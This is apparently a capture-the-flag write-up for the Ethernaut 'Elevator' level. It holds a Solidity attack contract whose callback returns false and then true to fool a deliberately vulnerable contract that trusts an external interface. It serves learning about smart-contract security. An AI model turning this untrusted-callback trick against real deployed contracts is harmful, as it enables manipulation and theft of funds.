 # 11. Elevator
This elevator won't let you reach the top of your building. Right?
Things that might help:

    Sometimes solidity is not good at keeping promises.
    This Elevator expects to be used from a Building.

**END** looked up solution
https://medium.com/coinmonks/ethernaut-lvl-11-elevator-walkthrough-how-to-abuse-solidity-interfaces-and-function-state-41005470121d

You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

Building.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {
    Elevator public el = Elevator(0x74FC30c28fAD14339E06eF5e769f2c30BEE39a3b); 
    bool public switchFlipped =  false; 
    
    function hack() public {
        el.goTo(1);
    }
    
    function isLastFloor(uint) public returns (bool) {
        // first call
      if (! switchFlipped) {
        switchFlipped = true;
        return false;
        // second call
      } else {
        switchFlipped = false;
        return true;
      }
    }
}
```